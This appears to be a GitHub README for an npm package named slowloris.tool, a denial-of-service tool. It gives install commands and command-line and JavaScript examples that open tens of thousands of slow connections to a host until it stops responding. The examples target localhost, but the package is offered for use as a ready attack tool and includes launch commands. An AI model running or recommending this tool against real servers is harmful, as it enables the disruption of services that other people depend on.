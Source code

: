 
### `Intro`
Example of slowloris attack it should start with a few connections and try and ramp up until I can't connected anymore

#### `Install`
``` bash
npm install --save git+ssh://git@github.com/anzerr/slowloris.tool.git
```

``` bash
git clone git+ssh://git@github.com/anzerr/slowloris.tool.git &&
cd slowloris.tool &&
npm link
```

### `Example`

``` bash
slowloris --host localhost:8080 --max 50000
slowloris --host https://localhost:8080
```

``` javascript
const Loris = require('slowloris.tool');
let l = new Loris('http://localhost:8080', 100000).attack();
return new Promise((resolve) => l.once('end', resolve)).then(() => {
	console.log('attack ended');
}).catch(console.log);
```